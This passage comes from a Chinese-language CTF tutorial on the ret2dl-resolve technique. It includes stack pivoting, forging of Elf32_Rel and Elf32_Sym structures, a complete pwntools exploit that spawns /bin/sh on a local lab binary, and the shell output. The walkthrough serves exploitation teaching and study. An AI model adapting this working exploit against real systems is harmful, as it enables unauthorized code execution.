rel_plt  = elf.get_section_by_name('.rel.plt').header.sh_addr    # 0x8048390
dynsym   = elf.get_section_by_name('.dynsym').header.sh_addr     # 0x80481cc
dynstr   = elf.get_section_by_name('.dynstr').header.sh_addr     # 0x804828c
bss_addr = elf.get_section_by_name('.bss').header.sh_addr        # 0x804a028

base_addr = bss_addr + 0x600    # 0x804a628
```

分别获取伪造各种表所需要的段地址，将 bss 段的地址加上 0x600 作为伪造数据的基地址，这里可能需要根据实际情况稍加修改。gadget pppr 用于平衡栈， pop ebp 和 leave ret 配合，以达到将 esp 指向 base_addr 的目的（在章节3.3.4中有讲到）。

第一部分的 payload 如下所示，首先从标准输入读取 100 字节到 base_addr，将 esp 指向它，并跳转过去，执行 base\_addr 处的 payload：

```python
payload_1  = "A" * 112
payload_1 += p32(read_plt)
payload_1 += p32(pppr_addr)
payload_1 += p32(0)
payload_1 += p32(base_addr)
payload_1 += p32(100)
payload_1 += p32(pop_ebp_addr)
payload_1 += p32(base_addr)
payload_1 += p32(leave_ret_addr)

io.send(payload_1)
```

从这里开始，后面的 paylaod 都是通过 read 函数读入的，所以必须为 100 字节长。首先，调用 write@plt 函数打印出与 base_addr 偏移 80 字节处的字符串 "/bin/sh"，以验证栈转移成功。注意由于 `.dynstr` 中的字符串都是以 `\x00` 结尾的，所以伪造字符串为 `bin/sh\x00`。

```python
payload_2  = "AAAA"     # new ebp
payload_2 += p32(write_plt)
payload_2 += "AAAA"
payload_2 += p32(1)
payload_2 += p32(base_addr + 80)
payload_2 += p32(len("/bin/sh"))
payload_2 += "A" * (80 - len(payload_2))
payload_2 += "/bin/sh\x00"
payload_2 += "A" * (100 - len(payload_2))

io.sendline(payload_2)
print io.recv()
```

我们知道第一次调用 write@plt 时其实是先将 reloc_index 压入栈，然后跳转到 PLT[0]：

```text
gdb-peda$ disassemble write
Dump of assembler code for function write@plt:
   0x08048430 <+0>:     jmp    DWORD PTR ds:0x804a01c
   0x08048436 <+6>:     push   0x20
   0x0804843b <+11>:    jmp    0x80483e0
End of assembler dump.
```

这次我们跳过这个过程，直接控制 `eip` 跳转到 PLT[0]，并在栈上布置上 reloc_index，即 `0x20`，就像是调用了 write@plt 一样。

```python
reloc_index = 0x20

payload_3  = "AAAA"
payload_3 += p32(plt_0)
payload_3 += p32(reloc_index)
payload_3 += "AAAA"
payload_3 += p32(1)
payload_3 += p32(base_addr + 80)
payload_3 += p32(len("/bin/sh"))
payload_3 += "A" * (80 - len(payload_3))
payload_3 += "/bin/sh\x00"
payload_3 += "A" * (100 - len(payload_3))

io.sendline(payload_3)
print io.recv()
```

接下来，我们更进一步，伪造一个 write 函数的 Elf32_Rel 结构体，原结构体在 `.rel.plt` 中，如下所示：

```C
typedef struct
{
  Elf32_Addr    r_offset;       /* Address */
  Elf32_Word    r_info;         /* Relocation type and symbol index */
} Elf32_Rel;
```

```text
$ readelf -r a.out | grep write
0804a01c  00000707 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0
```

该结构体的 `r_offset` 是 write@got 地址，即 `0x0804a01c`，`r_info` 是 `0x707`。动态装载器通过 reloc_index 找到它，而 reloc\_index 是相对于 `.rel.plt` 的偏移，所以我们如果控制了这个偏移，就可以跳转到伪造的 write 上。payload 如下：

```python
reloc_index = base_addr + 28 - rel_plt  # fake_reloc = base_addr + 28

r_info = 0x707
fake_reloc = p32(write_got) + p32(r_info)

payload_4  = "AAAA"
payload_4 += p32(plt_0)
payload_4 += p32(reloc_index)
payload_4 += "AAAA"
payload_4 += p32(1)
payload_4 += p32(base_addr + 80)
payload_4 += p32(len("/bin/sh"))
payload_4 += fake_reloc
payload_4 += "A" * (80 - len(payload_4))
payload_4 += "/bin/sh\x00"
payload_4 += "A" * (100 - len(payload_4))

io.sendline(payload_4)
print io.recv()
```

另外讲一讲 Elf32_Rel 值的计算方法如下，我们下面会得用到：

```C
#define ELF32_R_SYM(val)        ((val) >> 8)
#define ELF32_R_TYPE(val)       ((val) & 0xff)
#define ELF32_R_INFO(sym, type)     (((sym) << 8) + ((type) & 0xff))
```

- `ELF32_R_SYM(0x707) = (0x707 >> 8) = 0x7`，即 `.dynsym` 的第 7 行
- `ELF32_R_TYPE(0x707) = (0x707 & 0xff) = 0x7`，即 `#define R_386_JMP_SLOT 7 /* Create PLT entry */`
- `ELF32_R_INFO(0x7, 0x7) = (((0x7 << 8) + ((0x7) & 0xff)) = 0x707`，即 r_info

这一次，伪造位于 `.dynsym` 段的结构体 Elf32_Sym，原结构体如下：

```C
typedef struct
{
  Elf32_Word    st_name;        /* Symbol name (string tbl index) */
  Elf32_Addr    st_value;       /* Symbol value */
  Elf32_Word    st_size;        /* Symbol size */
  unsigned char st_info;        /* Symbol type and binding */
  unsigned char st_other;       /* Symbol visibility */
  Elf32_Section st_shndx;       /* Section index */
} Elf32_Sym;
```

```text
$ readelf -s a.out | grep write
     7: 00000000     0 FUNC    GLOBAL DEFAULT  UND write@GLIBC_2.0 (2)
```

转储 `.dynsym` 段并找到第 7 行：

```text
$ objdump -s -j .dynsym a.out
...
 804823c 4c000000 00000000 00000000 12000000  L...............
...
```

其中最重要的是 `st_name` 和 `st_info`，分别为 `0x4c` 和 `0x12`。构造 payload 如下：

```python
reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # since the size of Elf32_Sym is 0x10
fake_sym_addr = fake_sym_addr + align

r_sym = (fake_sym_addr - dynsym) / 0x10  # calcute the symbol index since the size of Elf32_Sym
r_type = 0x7    # R_386_JMP_SLOT -> Create PLT entry
r_info = (r_sym << 8) + (r_type & 0xff) # ELF32_R_INFO(sym, type) = (((sym) << 8) + ((type) & 0xff))
fake_reloc = p32(write_got) + p32(r_info)

st_name = 0x4c
st_info = 0x12
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)

payload_5  = "AAAA"
payload_5 += p32(plt_0)
payload_5 += p32(reloc_index)
payload_5 += "AAAA"
payload_5 += p32(1)
payload_5 += p32(base_addr + 80)
payload_5 += p32(len("/bin/sh"))
payload_5 += fake_reloc
payload_5 += "A" * align
payload_5 += fake_sym
payload_5 += "A" * (80 - len(payload_5))
payload_5 += "/bin/sh\x00"
payload_5 += "A" * (100 - len(payload_5))

io.sendline(payload_5)
print io.recv()
```

一样地讲一下 st_info 的解析和插入算法：

```C
#define ELF32_ST_BIND(val)      (((unsigned char) (val)) >> 4)
#define ELF32_ST_TYPE(val)      ((val) & 0xf)
#define ELF32_ST_INFO(bind, type)   (((bind) << 4) + ((type) & 0xf))
```

- `ELF32_ST_BIND(0x12) = (((unsigned char) (0x12)) >> 4) = 0x1`，即 `#define STB_GLOBAL 1 /* Global symbol */`
- `ELF32_ST_TYPE(0x12) = ((0x12) & 0xf) = 0x2`，即 `#define STT_FUNC 2 /* Symbol is a code object */`
- `ELF32_ST_INFO(0x1, 0x2) = (((0x1) << 4) + ((0x2) & 0xf)) = 0x12`，即 st_info

下一步，是将 `st_name` 指向我们伪造的字符串 "write"，payload 如下：

```python
reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align

r_sym = (fake_sym_addr - dynsym) / 0x10
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)

st_name = fake_sym_addr + 0x10 - dynstr     # address of string "write"
st_bind = 0x1   # STB_GLOBAL -> Global symbol
st_type = 0x2   # STT_FUNC -> Symbol is a code object
st_info = (st_bind << 4) + (st_type & 0xf)  # 0x12
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)

payload_6 = "AAAA"
payload_6 += p32(plt_0)
payload_6 += p32(reloc_index)
payload_6 += "AAAA"
payload_6 += p32(1)
payload_6 += p32(base_addr + 80)
payload_6 += p32(len("/bin/sh"))
payload_6 += fake_reloc
payload_6 += "A" * align
payload_6 += fake_sym
payload_6 += "write\x00"
payload_6 += "A" * (80 - len(payload_6))
payload_6 += "/bin/sh\x00"
payload_6 += "A" * (100 - len(payload_6))

io.sendline(payload_6)
print io.recv()
```

最后，只要将 "write" 替换成任何我们希望的函数，并调整参数，就可以了，这里我们换成 "system"，拿到 shell：

```python
reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align

r_sym = (fake_sym_addr - dynsym) / 0x10
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)

st_name = fake_sym_addr + 0x10 - dynstr
st_bind = 0x1
st_type = 0x2
st_info = (st_bind << 4) + (st_type & 0xf)
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)

payload_7 = "AAAA"
payload_7 += p32(plt_0)
payload_7 += p32(reloc_index)
payload_7 += "AAAA"
payload_7 += p32(base_addr + 80)
payload_7 += "AAAA"
payload_7 += "AAAA"
payload_7 += fake_reloc
payload_7 += "A" * align
payload_7 += fake_sym
payload_7 += "system\x00"
payload_7 += "A" * (80 - len(payload_7))
payload_7 += "/bin/sh\x00"
payload_7 += "A" * (100 - len(payload_7))

io.sendline(payload_7)
io.interactive()
```

Bingo!!!

```text
$ python2 exp.py
[*] '/home/firmy/Desktop/a.out'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ whoami
firmy
```

这题是 32 位程序，在 64 位下会有一些变化，比如说：

- 64 位程序一般情况下使用寄存器传参，但给 `_dl_runtime_resolve` 传参时使用栈
- `_dl_runtime_resolve` 函数的第二个参数 `reloc_index` 由偏移变为了索引。
- `_dl_fixup` 函数中，在伪造 fake_sym 后，可能会造成崩溃，需要将 `link_map+0x1c8` 地址上的值置零

具体的以后遇到再说。

如果觉得手工构造太麻烦，有一个工具 [roputils](https://github.com/inaz2/roputils) 可以简化此过程，感兴趣的同学可以自行尝试。

## 漏洞利用

完整的 exp 如下：

```python
from pwn import *

# context.log_level = 'debug'

elf = ELF('./a.out')
io = remote('127.0.0.1', 10001)
io.recv()

pppr_addr      = 0x08048699     # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_addr   = 0x0804869b     # pop ebp ; ret
leave_ret_addr = 0x080484b6     # leave ; ret

write_plt = elf.plt['write']
write_got = elf.got['write']
read_plt  = elf.plt['read']

plt_0    = elf.get_section_by_name('.plt').header.sh_addr        # 0x80483e0
rel_plt  = elf.get_section_by_name('.rel.plt').header.sh_addr    # 0x8048390
dynsym   = elf.get_section_by_name('.dynsym').header.sh_addr     # 0x80481cc
dynstr   = elf.get_section_by_name('.dynstr').header.sh_addr     # 0x804828c
bss_addr = elf.get_section_by_name('.bss').header.sh_addr        # 0x804a028

base_addr = bss_addr + 0x600    # 0x804a628

payload_1  = "A" * 112
payload_1 += p32(read_plt)
payload_1 += p32(pppr_addr)
payload_1 += p32(0)
payload_1 += p32(base_addr)
payload_1 += p32(100)
payload_1 += p32(pop_ebp_addr)
payload_1 += p32(base_addr)
payload_1 += p32(leave_ret_addr)
io.send(payload_1)

# payload_2  = "AAAA"     # new ebp
# payload_2 += p32(write_plt)
# payload_2 += "AAAA"
# payload_2 += p32(1)
# payload_2 += p32(base_addr + 80)
# payload_2 += p32(len("/bin/sh"))
# payload_2 += "A" * (80 - len(payload_2))
# payload_2 += "/bin/sh\x00"
# payload_2 += "A" * (100 - len(payload_2))
# io.sendline(payload_2)
# print io.recv()

# reloc_index = 0x20
# payload_3  = "AAAA"
# payload_3 += p32(plt_0)
# payload_3 += p32(reloc_index)
# payload_3 += "AAAA"
# payload_3 += p32(1)
# payload_3 += p32(base_addr + 80)
# payload_3 += p32(len("/bin/sh"))
# payload_3 += "A" * (80 - len(payload_3))
# payload_3 += "/bin/sh\x00"
# payload_3 += "A" * (100 - len(payload_3))
# io.sendline(payload_3)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt  # fake_reloc = base_addr + 28
# r_info = 0x707
# fake_reloc = p32(write_got) + p32(r_info)
# payload_4  = "AAAA"
# payload_4 += p32(plt_0)
# payload_4 += p32(reloc_index)
# payload_4 += "AAAA"
# payload_4 += p32(1)
# payload_4 += p32(base_addr + 80)
# payload_4 += p32(len("/bin/sh"))
# payload_4 += fake_reloc
# payload_4 += "A" * (80 - len(payload_4))
# payload_4 += "/bin/sh\x00"
# payload_4 += "A" * (100 - len(payload_4))
# io.sendline(payload_4)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt
# fake_sym_addr = base_addr + 36
# align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # since the size of Elf32_Sym is 0x10
# fake_sym_addr = fake_sym_addr + align
# r_sym = (fake_sym_addr - dynsym) / 0x10  # calcute the symbol index since the size of Elf32_Sym
# r_type = 0x7    # R_386_JMP_SLOT -> Create PLT entry
# r_info = (r_sym << 8) + (r_type & 0xff) # ELF32_R_INFO(sym, type) = (((sym) << 8) + ((type) & 0xff))
# fake_reloc = p32(write_got) + p32(r_info)
# st_name = 0x4c
# st_info = 0x12
# fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
# payload_5  = "AAAA"
# payload_5 += p32(plt_0)
# payload_5 += p32(reloc_index)
# payload_5 += "AAAA"
# payload_5 += p32(1)
# payload_5 += p32(base_addr + 80)
# payload_5 += p32(len("/bin/sh"))
# payload_5 += fake_reloc
# payload_5 += "A" * align
# payload_5 += fake_sym
# payload_5 += "A" * (80 - len(payload_5))
# payload_5 += "/bin/sh\x00"
# payload_5 += "A" * (100 - len(payload_5))
# io.sendline(payload_5)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt
# fake_sym_addr = base_addr + 36
# align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
# fake_sym_addr = fake_sym_addr + align
# r_sym = (fake_sym_addr - dynsym) / 0x10
# r_type = 0x7
# r_info = (r_sym << 8) + (r_type & 0xff)
# fake_reloc = p32(write_got) + p32(r_info)
# st_name = fake_sym_addr + 0x10 - dynstr     # address of string "write"
# st_bind = 0x1   # STB_GLOBAL -> Global symbol
# st_type = 0x2   # STT_FUNC -> Symbol is a code object
# st_info = (st_bind << 4) + (st_type & 0xf)  # 0x12
# fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
# payload_6 = "AAAA"
# payload_6 += p32(plt_0)
# payload_6 += p32(reloc_index)
# payload_6 += "AAAA"
# payload_6 += p32(1)
# payload_6 += p32(base_addr + 80)
# payload_6 += p32(len("/bin/sh"))
# payload_6 += fake_reloc
# payload_6 += "A" * align
# payload_6 += fake_sym
# payload_6 += "write\x00"
# payload_6 += "A" * (80 - len(payload_6))
# payload_6 += "/bin/sh\x00"
# payload_6 += "A" * (100 - len(payload_6))
# io.sendline(payload_6)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt
# fake_sym_addr = base_addr + 36
# align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
# fake_sym_addr = fake_sym_addr + align
# r_sym = (fake_sym_addr - dynsym) / 0x10
# r_info = (r_sym << 8) + 0x7
# fake_reloc = p32(write_got) + p32(r_info)
# st_name = fake_sym_addr + 0x10 - dynstr
# fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)
# payload_7  = "AAAA"
# payload_7 += p32(plt_0)
# payload_7 += p32(reloc_index)
# payload_7 += "AAAA"
# payload_7 += p32(base_addr + 80)
# payload_7 += "AAAA"
# payload_7 += "AAAA"
# payload_7 += fake_reloc
# payload_7 += "A" * align
# payload_7 += fake_sym
# payload_7 += "system\x00"
# payload_7 += "A" * (80 - len(payload_7))
# payload_7 += "/bin/sh\x00"
# payload_7 += "A" * (100 - len(payload_7))
# io.sendline(payload_7)

reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
r_sym = (fake_sym_addr - dynsym) / 0x10
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)
st_name = fake_sym_addr + 0x10 - dynstr
st_bind = 0x1
st_type = 0x2
st_info = (st_bind << 4) + (st_type & 0xf)
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
payload_7 = "AAAA"
payload_7 += p32(plt_0)
payload_7 += p32(reloc_index)
payload_7 += "AAAA"
payload_7 += p32(base_addr + 80)
payload_7 += "AAAA"
payload_7 += "AAAA"
payload_7 += fake_reloc
payload_7 += "A" * align
payload_7 += fake_sym
payload_7 += "system\x00"
payload_7 += "A" * (80 - len(payload_7))
payload_7 += "/bin/sh\x00"
payload_7 += "A" * (100 - len(payload_7))
io.sendline(payload_7)
io.interactive()
```

## 参考资料

- [How the ELF Ruined Christmas](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf)
- [Return-to-dl-resolve](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)
